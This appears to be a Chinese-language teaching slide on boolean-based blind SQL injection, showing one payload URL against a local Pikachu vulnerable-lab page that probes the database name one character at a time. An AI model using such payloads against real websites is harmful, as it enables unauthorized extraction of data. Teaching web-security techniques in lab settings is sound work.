

布尔盲注
当查询的结果不同时，页面返回的结果也不同，可以借此构造特定查询语句来爆破。
http://127.0.0.1/pikachu/vul/sqli/sqli_blind_b.php?name=vince' and if(ascii(substr(database(),1,1))=112
,1,0)%23&submit=%E6%9F%A5%E8%AF%A2